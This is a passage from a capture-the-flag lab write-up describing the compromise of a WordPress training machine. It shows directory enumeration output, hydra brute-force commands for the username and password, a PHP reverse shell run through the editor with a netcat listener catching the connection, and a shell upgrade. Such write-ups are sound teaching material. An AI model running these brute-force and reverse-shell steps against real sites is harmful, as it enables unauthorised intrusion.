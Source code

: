 ```
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.129.170/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.129.170/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.129.170/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/wp-login             (Status: 200) [Size: 2613]                                      
/css                  (Status: 301) [Size: 233] [--> http://10.10.129.170/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.129.170/feed/]        
Progress: 598 / 207644 (0.29%)                                                       ^C
[!] Keyboard interrupt detected, terminating.
                                                                                      
===============================================================
2022/11/17 13:10:25 Finished
===============================================================

```

>Directory enumeration has given very juicy information that guides me to the next step. From this I discovered a wordpress site with a login page at `/wp-admin`.


Definitely what comes to my mind is do a bruteforce attack to discover username and password since we have a custom wordlist for it.

For this task i decide to use hydra for bruteforcing.
```
hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```


>This hydra command gives us the username and the next thing i needed was a password to be able to gain access to the wordpress site. So I did another hydra bruteforce to get the password.

```
hydra -l Elliot -P fsocity.dic MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```
## Initial Access

> Using the username and password I obtained from the bruteforce, I gained access to the site and looking through I could see the logged in user has the privileges of editing the site and this was an amazing discovery. Having editor privileges means as an attacker I can launch a reverse shell. Interesting one here.
> I searched on the web for a php revshell script since the site has `.php` extension templates. I love visiting the pentestmonkey site for rev shell scripts 

I abused the editor privileges to get a reverse shell to that machine. I executed the php revshell on the site as I listen on my attacker machine.

```
┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/CybershujaaPractice]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.16.84] from (UNKNOWN) [10.10.129.170] 51451
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:18:45 up 29 min,  0 users,  load average: 0.00, 0.03, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 


```
Yes we got our shell. Lets make the shell stable
```
python -c "import pty;pty.spawn('/bin/bash')"
daemon@linux:/$ 
```